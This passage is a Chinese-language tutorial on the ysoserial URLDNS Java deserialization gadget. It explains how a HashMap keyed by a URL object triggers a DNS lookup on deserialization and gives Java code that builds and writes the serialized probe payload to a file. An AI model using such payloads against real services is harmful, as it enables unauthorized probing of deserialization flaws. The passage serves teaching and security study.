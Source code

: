 * 在反序列化一个 HashMap 时，会调用其中的 key 对象的 hashCode 方法计算 hash 值。这就可以触发之前讨论的 URL 对象 DNS 解析请求。如果反序列化一个 HashMap 对象中的 key 是 URL 对象，在反序列化时就会调用这个 URL 对象的 `hashCode` 方法，触发 DNS 解析查询。
* URL中的hashCode字段要修改为-1，这样才能在反序列化的时候执行到handler.hashCode()方法。

OK，所以现在来看一下ysoserial的代码

```java
public Object getObject(final String url) throws Exception {
    URLStreamHandler handler = new SilentURLStreamHandler();

    HashMap ht = new HashMap();
    // 这个写法等同于URL u = new URL(url)
    URL u = new URL(null, url, handler);
    // 把Map的key设置为URL对象 
    ht.put(u, url);
    // 这是ysoserial的小工具，将hashCode字段设置为-1
    Reflections.setFieldValue(u, "hashCode", -1);
    return ht;
}
```

改写ysoserial的代码，不使用工具类，而是使用原生方式来执行，这样更方便我们调试：

```java
public class URLDNS {
	static String serialFileName = "urldns.ser";
    public static void main(String[] args) throws Exception {
        mainYsoSerial();
        verify();
    }
    // 验证方法
    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object obj = (Object) ois.readObject();
    }
    // 改进的ysoserial中的URLDNS代码
    public static void mainYsoSerial() throws Exception {
        String serialFileName = "urldns.ser";
        String url = "https://www.baidu.com";
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap();
        URL u = new URL(null, url, handler);
        Field hashCode = u.getClass().getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        // 改造了以下ysoserial的代码使得这里put的时候不会触发hashCode()方法
        hashCode.set(u, 0x1010);
        ht.put(u, url);
        // 在put完之后再把hashCode改成-1，这样在序列化时hashCode就是-1，然后反序列化时识别到-1之后，最终就会调用URL的hashCode()方法
        hashCode.setAccessible(true);
        hashCode.set(u, -1);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(ht);
        oos.flush();
        oos.close();
        fos.close();
    }
    static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
```